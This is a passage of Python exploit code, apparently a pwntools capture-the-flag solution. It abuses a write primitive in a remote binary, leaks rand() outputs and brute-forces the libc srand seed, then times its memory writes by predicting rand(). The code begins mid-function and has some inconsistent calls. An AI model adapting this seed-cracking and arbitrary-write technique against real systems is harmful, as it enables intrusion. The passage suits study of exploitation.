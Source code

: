 ```python

    # For debugging we use a patched version of the binary.
    if args.REMOTE:
      what_where(AT_ENTRY, tests - start)

    try:
      # Interact again, and if we see the banner we have a loop!
      what_where(AT_ENTRY, banner_bytes - start)
      r.recvuntil(some_banner, timeout=2)
      
      return time
    except Exception as _:
      r.close()
      libc_rand_calls = 0
      continue
  
def crackycrack(time):
  global r

  # Obtain some random values
  rand_leaks = []
  
  libc_rand_calls_b4 = libc_rand_calls

  for i in range(3):
    what_where(AT_ENTRY, banner_bytes - start)
    rand_leaks.append(r.recvuntil(some_banner, timeout=2)[0])

  # Crack the seed using the rand values as tests
  brepr    = bin(time)[2:]
  bindices = [e for e,i in enumerate(brepr) if i == '0']
  
  for num in tqdm(range(2**len(bindices))):
    tmp = list(brepr)
    numbin = bin(num)[2:].rjust(len(bindices), '0')
    for e,j in enumerate(numbin):
      tmp[bindices[e]] = j

    test_seed = int(''.join(tmp), 2)

    libc_srand(test_seed)

    for _ in range(libc_rand_calls_b4):
      libc_rand()

    if all((libc_rand(test_seed) & 0xff) == i for i in rand_leaks):
      return test_seed
  return None

def writywrite(vals, what, where):
  global flag
  global r
  for e,v in enumerate(vals):
    cnt = 0
    while (libc_rand() & 0xff) != v: 
      cnt += 1  

    for _ in range(cnt):
      what_where(AT_ENTRY, banner_bytes - start)

    if flag:
      gdb.attach(r, gdbscript=gdbscript)

```